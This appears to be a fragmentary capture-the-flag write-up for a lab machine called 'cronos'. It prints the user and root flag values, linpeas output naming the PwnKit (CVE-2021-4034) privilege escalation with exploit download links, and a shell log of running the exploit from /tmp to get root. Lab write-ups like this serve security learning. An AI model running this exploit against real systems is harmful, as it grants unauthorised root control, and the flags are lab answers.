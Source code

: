 #### User Flag

``746d76441a18af335d9ff717c67116a1

## Privilege Escalation

Linpeas Output:

```
[+] [CVE-2021-4034] PwnKit

   Details: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
   Exposure: probable
   Tags: [ ubuntu=10|11|12|13|14|15|16|17|18|19|20|21 ],debian=7|8|9|10|11,fedora,manjaro
   Download URL: https://codeload.github.com/berdav/CVE-2021-4034/zip/main


```

#### Root Flag

Pwnkit exploited:

```bash
(remote) www-data@cronos:/tmp$ chmod +x pwnkit 
(remote) www-data@cronos:/tmp$ ./pwnkit 
root@cronos:/tmp# cd /root
root@cronos:~# ls
root.txt
root@cronos:~# cat root.txt 
744daa689febbaf1a03827c5d57bf3b1
root@cronos:~# 
```


## Conclusion

- 
## Additional Notes

- 
## Resources
https://github.com/ly4k/PwnKit